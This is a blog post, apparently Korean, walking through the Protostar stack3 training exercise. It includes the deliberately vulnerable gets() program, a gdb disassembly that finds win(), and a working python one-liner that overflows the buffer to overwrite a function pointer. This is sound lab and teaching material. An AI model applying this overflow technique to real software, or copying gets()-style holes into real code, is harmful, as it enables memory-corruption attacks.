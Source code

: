 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar stack3"
date: 2016-07-02 21:03:10
category: wargame
tags:  [exploit-exercise, protostar]
---
```


[Protostar Stack3 - Exploit Exercises](https://exploit-exercises.com/protostar/stack3/)

>Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
>
>Hints
>
>both gdb and objdump is your friend you determining where the win() function lies in memory.
>This level is at /opt/protostar/bin/stack3

<!--more--> 

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

#### 해결 방안

function pointer `fp` 로 jump 을 할 것이고,  `win()` 함수가 정의 되어 있으므로 BoF 로 `buffer[64]` 를 덮고, 그 뒤에 있는 `fp` 값을 `win()` 주소가 되도록 덮으면 된다.

```
(gdb) disas win
Dump of assembler code for function win:
0x08048424 <win+0>:     push   %ebp
0x08048425 <win+1>:     mov    %esp,%ebp
0x08048427 <win+3>:     sub    $0x18,%esp
0x0804842a <win+6>:     movl   $0x8048540,(%esp)
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret   
```

#### Exploit

```bash
$ python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed  
```

